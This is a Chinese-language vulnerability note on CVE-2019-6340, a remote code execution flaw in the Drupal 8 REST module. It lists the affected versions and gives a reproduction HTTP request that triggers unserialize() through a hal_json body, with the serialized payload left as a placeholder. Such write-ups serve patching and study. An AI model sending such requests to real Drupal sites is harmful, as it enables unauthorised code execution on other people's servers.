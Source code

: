 ```yaml
---
title: "（CVE-2019-6340）Drupal 远程代码执行漏洞"
id: zhfly2896
---
```


# （CVE-2019-6340）Drupal 远程代码执行漏洞

## 一、漏洞简介

Drupal Core存在一个远程代码执行漏洞。此次，它的目标是Drupal 8的REST模块，默认情况下，该模块是禁用了，但是该模块在大多数情况下会被用户使用。**该漏洞本质上是由于用户使用Drupal Core RESTful Web Services (rest)时，某些字段类型无法正确清理非格式源中的数据。在某些情况下，这可能导致任意PHP代码执行。**此外，我们发现针对该漏洞提出的即时补救措施是不完整的，这可能会导致一种错误的安全感。**用户可能会根据官方的说明禁用掉RESTful Web Services 中的POST/PATCH方法，但是事实上GET方法也能在无任何权限的情况下执行远程代码，所以用户必须执行Drupal的最新的安全更新或者禁用RESTful Web Services服务，否则网站依旧处于风险当中。**

## 二、漏洞影响

Drupal 8.6.x < 8.6.10

Drupal 8.5.x < 8.5.11

## 三、复现过程

> 触发`unserialize()`

```
GET /drupal-8.6.9/node/1?_format=hal_json HTTP/1.1
Host: 192.168.1.25
Content-Type: application/hal+json
Content-Length: 642 `{

“link”: [

{

“value”: “link”,

“options”: “<SERIALIZED_CONTENT>”

}

],

“_links”: {

“type”: {

“href”: “[http://192.168.1.25/drupal-8.6.9/rest/type/shortcut/default](http://192.168.1.25/drupal-8.6.9/rest/type/shortcut/default)”

}

}

}` 
```
